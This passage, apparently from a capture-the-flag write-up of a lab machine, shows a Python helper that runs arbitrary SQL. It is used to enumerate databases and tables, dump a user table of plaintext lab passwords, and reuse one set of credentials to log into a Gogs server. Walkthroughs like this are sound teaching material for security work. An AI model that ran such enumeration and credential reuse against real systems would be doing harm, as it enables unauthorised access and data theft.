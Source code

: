     try:                                   
        with connection.cursor() as cursor:                                 
            sql = sys.argv[1]
            cursor.execute(sql)       
            result = cursor.fetchall()
            print(result)
            
    finally:              
        connection.close()



It works:



    /opt/app # python .dbtest.py  'SELECT user()'
    [{'user()': 'craft@172.20.0.6'}]



#### Enumeration

I can get a list of the databases, and there's only one interesting one,
`craft`:



    /opt/app # python .dbtest.py  "SELECT schema_name FROM information_schema.schemata;"
    [{'SCHEMA_NAME': 'information_schema'}, {'SCHEMA_NAME': 'craft'}]



The `craft` db has two tables:



    /opt/app # python .dbtest.py  "SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
    [{'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'brew'}, {'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'user'}]



I knew `brew` from the api, but `user` is new. It has three entries:



    /opt/app # python .dbtest.py  "SELECT * from user"
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]



The dinesh password matches what I had found in gogs, but the other two
are new.

### Gogs

I tried the new passwords on SSH (both 22 and 6022), didn't succeed in
either. Next, I tried to log into Gogs, and the creds for gilfoyle
worked, and showed an additional private repo:
